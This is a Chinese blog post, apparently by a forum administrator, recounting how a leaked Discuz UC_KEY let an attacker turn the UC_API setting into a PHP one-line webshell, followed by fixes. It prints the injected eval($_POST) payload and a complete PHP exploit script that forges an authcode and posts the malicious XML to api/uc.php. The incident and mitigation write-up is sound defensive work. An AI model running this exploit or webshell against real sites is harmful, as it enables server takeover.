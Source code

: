 ```yaml
---
title: 140212 Discuz UC_KEY泄露导致获得WebShell
layout: post
permalink: /2735.html
views:
  - 13
categories:
  - Code
tags:
  - discuz
  - uc_key
  - webshell
---
```

吃饭的时候同事发了个微信给我，说社区头像都显示不了了，当时没太在意，估计是cdn的问题。回来后打开网站自己看了下，乖乖把我吓坏了竟然出现了这么个情况。

所有头像地址都变为：

<pre class="brush: php; title: ; notranslate" title="">http://xxx\');eval($_POST[DOM]);//avastar.php?uid=123&#038;size=middle

</pre>

一看就知道是被人黑了，估计还拿到了webshell.

果断看了下代码做了断点调试，确实是ucenterurl中的值被更改了

<pre class="brush: php; title: ; notranslate" title="">function avatar($uid, $size = 'middle', $returnsrc = FALSE, $real = FALSE, $static = FALSE, $ucenterurl = '') {
	global $_G;
	if($_G['setting']['plugins']['func'][HOOKTYPE]['avatar']) {
		$_G['hookavatar'] = '';
		$param = func_get_args();
		hookscript('avatar', 'global', 'funcs', array('param' =&gt; $param), 'avatar');
		if($_G['hookavatar']) {
			return $_G['hookavatar'];
		}
	}
	static $staticavatar;
	if($staticavatar === null) {
		$staticavatar = $_G['setting']['avatarmethod'];
	}

	$ucenterurl = empty($ucenterurl) ? $_G['setting']['ucenterurl'] : $ucenterurl;
	$size = in_array($size, array('big', 'middle', 'small')) ? $size : 'middle';
	$uid = abs(intval($uid));
	if(!$staticavatar && !$static) {
		return $returnsrc ? $ucenterurl.'/avatar.php?uid='.$uid.'&size='.$size : '&lt;img src="'.$ucenterurl.'/avatar.php?uid='.$uid.'&size='.$size.($real ? '&type=real' : '').'" /&gt;';
	} else {
		$uid = sprintf("%09d", $uid);
		$dir1 = substr($uid, 0, 3);
		$dir2 = substr($uid, 3, 2);
		$dir3 = substr($uid, 5, 2);
		$file = $ucenterurl.'/data/avatar/'.$dir1.'/'.$dir2.'/'.$dir3.'/'.substr($uid, -2).($real ? '_real' : '').'_avatar_'.$size.'.jpg';
		return $returnsrc ? $file : '&lt;img src="'.$file.'" onerror="this.onerror=null;this.src=\''.$ucenterurl.'/images/noavatar_'.$size.'.gif\'" /&gt;';
	}
}
</pre>

在config/config\_ucenter.php 中的 UC\_API 的值变成了一句话木马。根据字符特征，很快找到了exp

<pre class="brush: php; title: ; notranslate" title="">&lt;?php
    $timestamp = time()+10*3600;
    $host="127.0.0.1";
    $uc_key="eapf15K8b334Bc8eBeY4Gfn1VbqeA0N5Waofq6J285Ca33i151e551g0l9f2l3dd";
    $code=urlencode(_authcode("time=$timestamp&action=updateapps", 'ENCODE', $uc_key));
    $cmd1='&lt;?xml version="1.0" encoding="ISO-8859-1"?&gt;
&lt;root&gt;
 &lt;item id="UC_API"&gt;http://xxx\');eval($_POST[DOM]);//&lt;/item&gt;
&lt;/root&gt;';
    $cmd2='&lt;?xml version="1.0" encoding="ISO-8859-1"?&gt;
&lt;root&gt;
 &lt;item id="UC_API"&gt;http://aaa&lt;/item&gt;
&lt;/root&gt;';
    $html1 = send($cmd1);
    echo $html1;
    $html2 = send($cmd2);
    echo $html2;
    
    
function send($cmd){
    global $host,$code;
    $message = "POST /api/uc.php?code=".$code."  HTTP/1.1\r\n";
    $message .= "Accept: */*\r\n";
    $message .= "Referer: ".$host."\r\n";
    $message .= "Accept-Language: zh-cn\r\n";
    $message .= "Content-Type: application/x-www-form-urlencoded\r\n";
    $message .= "User-Agent: Mozilla/4.0 (compatible; MSIE 6.00; Windows NT 5.1; SV1)\r\n";
    $message .= "Host: ".$host."\r\n";
    $message .= "Content-Length: ".strlen($cmd)."\r\n";
    $message .= "Connection: Close\r\n\r\n";
    $message .= $cmd;
	
	//var_dump($message);
    $fp = fsockopen($host, 80);
    fputs($fp, $message);
    
    $resp = '';

    while ($fp && !feof($fp))
        $resp .= fread($fp, 1024);
    
    return $resp;
}

function _authcode($string, $operation = 'DECODE', $key = '', $expiry = 0) {
    $ckey_length = 4;

    $key = md5($key ? $key : UC_KEY);
    $keya = md5(substr($key, 0, 16));
    $keyb = md5(substr($key, 16, 16));
    $keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';

    $cryptkey = $keya.md5($keya.$keyc);
    $key_length = strlen($cryptkey);

    $string = $operation == 'DECODE' ? base64_decode(substr($string, $ckey_length)) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
    $string_length = strlen($string);

    $result = '';
    $box = range(0, 255);

    $rndkey = array();
    for($i = 0; $i &lt;= 255; $i++) {
        $rndkey[$i] = ord($cryptkey[$i % $key_length]);
    }

    for($j = $i = 0; $i &lt; 256; $i++) {
        $j = ($j + $box[$i] + $rndkey[$i]) % 256;
        $tmp = $box[$i];
        $box[$i] = $box[$j];
        $box[$j] = $tmp;
    }

    for($a = $j = $i = 0; $i &lt; $string_length; $i++) {
        $a = ($a + 1) % 256;
        $j = ($j + $box[$a]) % 256;
        $tmp = $box[$a];
        $box[$a] = $box[$j];
        $box[$j] = $tmp;
        $result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
    }

    if($operation == 'DECODE') {
        if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() &gt; 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
            return substr($result, 26);
        } else {
                return '';
            }
    } else {
        return $keyc.str_replace('=', '', base64_encode($result));
    }

}
?&gt;
</pre>

网上没有相关的对策不过oldjun说得很对这玩意漏洞必须满足2个条件：

<pre>1.必须知道UC_KEY，通常在配置文件里，或者ucenter的原始（没有经过修改的）数据库（应用）中；

2.配置文件config_ucenter.php必须可写。
</pre>

**说白了是因为在做cdn源的时候比较粗肢的把php源代码包含了一部分出去，所以hacker可以根据相对路径获取到uc_key的内容。**

关于如何解决:  
1：修改 config_ucenter.php 权限为不可写  
2：修改 api/uc.php 中 代码，把之注释掉  
3: 更改 uc\_key ，并且保证config\_ucenter.php中的与uc_server/data/cache/apps.php中的一致

<pre class="brush: php; title: ; notranslate" title="">if ($UC_API && is_writeable ( DISCUZ_ROOT . './config/config_ucenter.php' )) {
			if (preg_match ( '/^https?:\/\//is', $UC_API )) {
				$configfile = trim ( file_get_contents ( DISCUZ_ROOT . './config/config_ucenter.php' ) );
				$configfile = substr ( $configfile, - 2 ) == '?&gt;' ? substr ( $configfile, 0, - 2 ) : $configfile;
				$configfile = preg_replace ( "/define\('UC_API',\s*'.*?'\);/i", "define('UC_API', '" . addslashes ( $UC_API ) . "');", $configfile );
				if ($fp = @fopen ( DISCUZ_ROOT . './config/config_ucenter.php', 'w' )) {
					//@fwrite ( $fp, trim ( $configfile ) );
					@fclose ( $fp );
				}
			}
		}
</pre>

本文参考:

http://www.oldjun.com/blog/index.php/archives/76/

http://www.unhonker.com/bug/1509.html